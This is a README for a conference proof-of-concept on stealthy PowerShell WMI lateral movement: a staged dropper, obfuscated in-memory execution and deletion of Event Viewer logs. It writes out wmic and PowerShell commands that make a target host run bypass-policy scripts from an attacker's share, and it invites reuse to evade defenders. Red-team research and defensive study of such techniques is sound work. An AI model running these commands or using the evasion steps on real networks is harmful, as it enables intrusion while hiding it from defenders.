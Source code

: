 Fud WMI for lateral movement (PoC) - ##BsidesDub 2019## 
============

Author: kmkz - [@kmkz_security](https://twitter.com/kmkz_security)

## Intro

This repository contains the PowerShell WMI based Proof of Concept for advanced lateral movement as presented at BsidesDub 2019.

The main goal of this project was to demonstrate the techniques an attacker might use to bypass detection mechanisms using many techniques in real-life condition.

It implement random class name derivation  mechanism, payload obfuscation, in-memory execution without any call to IEX nor IWR for the stage 1 dropper and an EventViewer logs removal through WMI un-subscription method. 

Additionally, it use **WMI only** (no WinRM) and do not interact with registry keys to avoid registry monitoring based detection.

Of course, **feel free to reuse code parts for your own purpose in case of need to escape blue team or for simply test-it**.



## Details

   **Stage 1** (executed on attacker's side):
   
The "stage 1" is a simple dropper for payload delivery through UNC/WebDAV using basic obfuscation (require admin. privs for RCE over WMI ofc).
	
It is executed from attackers station (C2C) to run in-memory fud PowerShell without the well-known `IWR/IEX` method calls.

[*] Notes:

UNC/WebDAV could be replaced by WMI namespaces as presented in WmiSploit project `https://github.com/secabstraction/WmiSploit`.
        
However, the executed command is then limited to 8190 chars due to `-EncodedCommand` usage for b64 payload, this is the reason why I prefered this method for the PoC.

An important thing here is that .ps1 file is executed over WMI without `invoke-expression` (iex) nor `wget/invoke-webrequest` (iwr) method to prevent alerting.

Classic stager from command line: 
	```
            wmic.exe /node:"Victime-PC" /user:WORKGROUP\admin process call create "PowErSheLl -eXecUtIonpOliCY BypAsS -NopRofilE -fILe \\Vboxsvr\shared\BSIDESIE\class-derivation.ps1"
	```

    
   **Stage 2** (executed on target):
   
 In-memory build stage 2 using "-File" parameter (obfuscated PowerShell with random Class Derivation).
  
 Randomly generated class derivation and "EventViewer" logs removing for detection mechanisms/blue team evasion.
 
 Stage 1 execution is not removed from logs for debug purpose, it should be modified for a total discretion ;).


   [*] Notes:
     
C2C shell could be used in combination to unicorn to obtains Meterpreter session (stage 2 could be modified depending on the use case):
        
        Examples: `powershell.exe -eXecUtIOnpOlICy BypAsS -File "\\Vboxsvr\shared\BSIDESIE\pwner.ps1"`

        IMPORTANT: Payload delivery using "-File" parameter also permit to add hashes collection when payload (stage 2) is triggered.

   **stage 3** (executed on target):
       
Payload execution and output push/pull via a random file located on attacker's server.
	
## Demo

![](PoC-demo.gif)


## Thanks

- @philiptsukerman - WMI guru - https://github.com/Cybereason/Invoke-WMILM
- @arno0x0x - how to say that... its scripts helped me so often during post-exploitation steps... - https://github.com/Arno0x
- @mattifestation - a ton of useful research and publications
- @secabstraction - https://github.com/secabstraction/WmiSploit
- @all: 'cause we all need others to go further!
